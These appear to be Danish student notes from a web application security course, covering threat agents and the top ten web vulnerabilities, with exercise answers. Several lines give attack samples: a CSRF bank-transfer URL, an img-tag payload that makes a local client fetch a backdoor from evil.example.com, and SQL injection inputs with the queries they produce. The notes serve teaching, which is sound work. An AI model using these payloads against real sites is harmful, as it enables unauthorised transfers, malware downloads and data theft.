 Web application security
========================
Lecture
-------
- 




Under læsning:
==============

Noter
-----
Black box
- Er dyrt at gennemgå alt sourcekode, så ofte bedst at analyser systemer via `black box`
- 


### problem 6.1
- threat agents:
    - Hvem er mulig adversary?
    - opdelt i mange subkategorier
        - non-target specific, så som virus
        - employees der er vrede på virksomheden
        - kriminelle
        - andre virksomheder eller organisationer (NSA?)
        - mennesker ved et uheld
        - mennesker med vilje
        - natural, så som jordskæl, brand, osv.
attack vectors:
    - Er en vej eller måde hvorpå en hacker opnår adgang til en computer eller server for at udfører et ondsindet angreb. 
security weakness:
    - hvorfor findes denne sårbarhed og hvordan kan de findes? 
technical impact:
    - Hvad kan udkommet være teknisk set? overtagelse af server?
business impact:
    - Hvad kan udkommet være set fra et business synspunkt? ofte tab af data 

### problem 6.2

1. inject
    - sql injection
2. authentication / session management
    - taking over password, keys, sessions tokens....
3. cross-site-scription (XSS)
    - execute scripts in the users browser.
4. Insecure direct object references
    - A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory, or database key.
    Without an access control check or other protection
5. Security misconfiguration
    - fejl i konfigurering af f.eks. frameworks
6. sensitive data exposure
    - credit card, tax ids, authentication credentials og så videre. encrypt!
7. missing function level access control
    - gem functionalitet i UI'en, men bagved bliver brugeren ikke authenticated.
8. Cross-site request forgery (CSRF)
    - også kendt som session riding
    - f.eks. sender link til brugeren der allerede er logget ind "www.bank.dk/transfer?to=adversary&amount=10000
    - kan også udnytte lokale sårbare endpoints som: img src="localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor .torrent">
9. Using components with known vulnerabilities
    - Outdated libs/frameworks/software
    - Kan være de kører med for høje privileges, som f.eks. forældret antivirus
10. Unvalidated redirects and forwards
    - adversaries kan redirect brugere til malware sites, som f.eks. via en facebook post.
    

### problem 6.3
- Input tags
- form tags
- common frameworks
- http request headers
- api endpoints such as /api/*
    - specielt post.
- hidden fields

### problem 6.7
VirtueMart version 1.1.2 and below is vulnerable to simple SQL injections
- http://www.waraxe.us/content-71.html

### problem 6.11
- prøv disse input: 
    - '--
    - ' or '1'='1
    - vil resultere i sql strings som:
        - 'SELECT * FROM users WHERE username =1=1; SELECT * FROM jos.users;--’--.
        - 'SELECT * FROM users WHERE username =’’ or ’1’=’1’'.
        
### problem 6.13
- Samme metode som i 6.11

